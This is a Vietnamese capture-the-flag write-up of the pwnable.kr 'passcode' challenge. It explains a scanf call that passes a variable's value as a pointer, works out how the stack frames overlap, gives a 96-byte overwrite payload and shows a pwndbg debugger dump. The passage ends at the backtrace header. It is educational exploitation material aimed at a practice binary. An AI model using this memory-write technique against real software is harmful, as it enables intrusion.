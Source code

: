 Dựa vào mô tả của challenge và phân tích source code, mình nhận thấy có một lỗi ở hàm **scanf**. Cụ thể là: `scanf("%d", passcode1);` và `scanf("%d", passcode2);`.
=> Ở đây, khi nhập giá trị vào cho một biến kiểu int thì phải truyền vào **con trỏ địa chỉ** đến biến đó, nhưng ở đây truyền vào lại là **giá trị của biến**

> Đoạn code đúng phải là: `scanf("%d", &passcode1);`

Để biết được hàm scanf sẽ ghi vào địa chỉ nào thì quay lại việc hàm sử dụng **stack frame**.

Hàm **login()** được gọi ngay sau khi hàm **welcome()** được gọi => **Stack frame** sẽ trùng nhau

![alt img](/img/2025/pwnable.kr/image-8.png)

![alt img](/img/2025/pwnable.kr/image-9.png)

=> Giá trị của biến **passcode1** sẽ là giá trị của biến **name** ở địa chỉ có index là: `(-0x0C) - (-0x70) = 0x60 (Dec: 96)`

=> Tức là payload để nhập giá trị cho **passcode1** sẽ là: `b'A' * 96 + b'\xe6\x28\x05\x00'`

```bash
pwndbg> 
0x08048586 in login ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────
 EAX  0x8048783 ◂— and eax, 0x6e650064 /* '%d' */
 EBX  0xf7faae14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x235d0c /* '\x0c]#' */
 ECX  0
 EDX  0x528e6
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x80486a0 (__libc_csu_init) ◂— push ebp
 EBP  0xffffc838 —▸ 0xffffc858 ◂— 0
 ESP  0xffffc810 —▸ 0x8048783 ◂— and eax, 0x6e650064 /* '%d' */
*EIP  0x8048586 (login+34) —▸ 0xffff15e8 ◂— 0
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────────
   0x804857c <login+24>    mov    edx, dword ptr [ebp - 0x10]     EDX, [0xffffc828] => 0x528e6
   0x804857f <login+27>    mov    dword ptr [esp + 4], edx        [0xffffc814] <= 0x528e6
   0x8048583 <login+31>    mov    dword ptr [esp], eax            [0xffffc810] <= 0x8048783 ◂— and eax, 0x6e650064 /* '%d' */
 ► 0x8048586 <login+34>    call   __isoc99_scanf@plt          <__isoc99_scanf@plt>
        format: 0x8048783 ◂— 0x65006425 /* '%d' */
        vararg: 0x528e6
 
   0x804858b <login+39>    mov    eax, dword ptr [0x804a02c]      EAX, [stdin@@GLIBC_2.0]
   0x8048590 <login+44>    mov    dword ptr [esp], eax
   0x8048593 <login+47>    call   fflush@plt                  <fflush@plt>
 
   0x8048598 <login+52>    mov    eax, 0x8048786                  EAX => 0x8048786 ◂— outsb dx, byte ptr gs:[esi] /* 'enter passcode2 : ' */
   0x804859d <login+57>    mov    dword ptr [esp], eax
   0x80485a0 <login+60>    call   printf@plt                  <printf@plt>
 
   0x80485a5 <login+65>    mov    eax, 0x8048783                  EAX => 0x8048783 ◂— and eax, 0x6e650064 /* '%d' */
────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ esp 0xffffc810 —▸ 0x8048783 ◂— and eax, 0x6e650064 /* '%d' */
01:0004│-024 0xffffc814 ◂— 0x528e6
02:0008│-020 0xffffc818 ◂— 0x41414141 ('AAAA')
... ↓        3 skipped
06:0018│-010 0xffffc828 ◂— 0x528e6
07:001c│-00c 0xffffc82c ◂— 0x6163cf00
──────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
```